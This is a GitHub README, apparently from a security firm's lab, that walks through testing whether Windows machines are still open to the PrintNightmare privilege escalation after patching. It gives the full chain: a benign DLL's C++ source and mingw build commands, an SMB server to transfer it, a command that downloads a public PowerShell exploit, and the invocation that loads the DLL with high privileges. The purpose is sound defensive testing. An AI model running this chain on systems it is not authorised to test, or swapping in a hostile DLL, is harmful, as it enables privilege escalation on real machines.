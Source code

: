 # Test if you are still vulnerable to PrintNightmare's privesc after patching

PrintNightmare (CVE-2021-1675 / CVE 2021 34527) is an exploit that takes advantage of the AddPrintDriver function of the Spooler to arbitrarily execute files with high-privs.

There is some confusion if the round of patches released by Microsoft on 6th July 2021. It seems the RCE portion of the exploit is patched, but the privilege escalation may still be vulnerable.

We have put together a step-by-step to run a test PoC to see if the recent patch has been effective for your machine. This guide will do no damage to your machine, neither should it crash the machine or spooler. It will simply write `C:\PrintNightmare.txt`

Thanks to John Hammond and Caleb Stewart from Huntress for releasing this [PowerShell implementation](https://github.com/calebstewart/CVE-2021-1675) of PrintNightmare

## Pre-check
```powershell
get-service spooler
```
![image](https://user-images.githubusercontent.com/49488209/124728554-9a371b80-df07-11eb-8e91-8d30eea92e73.png)

If spooler isn't running, won't be vulnerable, you can quit here and now.
Otherwise if running, begin exploitation.

## DLL

If you trust us enough, we have a pre-compiled DLL you can download from right here. 

This DLL will just print an innocent, non-malicious file called *Printnightmare.txt* to *C:\*

Otherwise, you are welcome to follow the guidance below to compile the DLL yourself:


<details>
    <summary>Compile non-malicious DLL</summary>


## Prepare non-Malicious DLL
Run this on your attacker box

#### Install Dependencies
```bash
sudo apt apt install gcc-mingw-w64
sudo apt-get install g++-mingw-w64-x86-64
```
### Write the Dll
```bash
nano nightmare.cpp
```

This DLL will just print an innocent, non-malicious file called *Printnightmare.txt* to *C:\*

```cpp
#include <windows.h>

int printy()
{
  WinExec("cmd.exe /c echo > C:\\printnightmare.txt",0);
   return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  printy();
  return 0;
}
```

#### Compile DLL
```bash
sudo x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL nightmare.cpp         
sudo x86_64-w64-mingw32-g++ -shared -o nightmare.dll nightmare.o -Wl,--out-implib,nightmare.a
```
![image](https://user-images.githubusercontent.com/49488209/124728640-a9b66480-df07-11eb-9c9d-42e2cea1b6c7.png)

</details>
 
  
## Transfer DLL however you like, impacket's smbserver.py works
### In Kali
```bash
sudo impacket-smbserver kali . -smb2support
```
![2021-07-07_09-43](https://user-images.githubusercontent.com/49488209/124728745-bdfa6180-df07-11eb-876b-1155026cb191.png)


### Copy from Kali to in Windows
```cmd
:: I copied mine into C:\
copy \\yourip\\kali\\nightmare.dll
```
![image](https://user-images.githubusercontent.com/49488209/124728825-cf436e00-df07-11eb-9ff5-d56bc338720a.png)


## Exploit
### Pull Powershell exploit, written by John Hammond and Caleb from Huntress

```powershell
invoke-webrequest -uri "https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1" -UseBasicParsing -outfile CVE-2021-1675.ps1
```

#### Deploy Exploit
```powershell
import-module .\CVE-2021-1675.ps1
Invoke-Nightmare -DLL "C:\nightmare.dll"
```
![image](https://user-images.githubusercontent.com/49488209/124728899-e2563e00-df07-11eb-9b30-96d8509caad8.png)


### Check C:\ for PrintNightmare.txt
![image](https://user-images.githubusercontent.com/49488209/124728938-eb470f80-df07-11eb-9acb-03bfe59a14ec.png)

It doesn't matter what its contents is, it just matters that it exists. 

### For any questions, comments, and criticisms, please find us on Twitter at [LABS](https://twitter.com/jumpseclabs?lang=en) or on [MAIN](https://twitter.com/jumpsec)

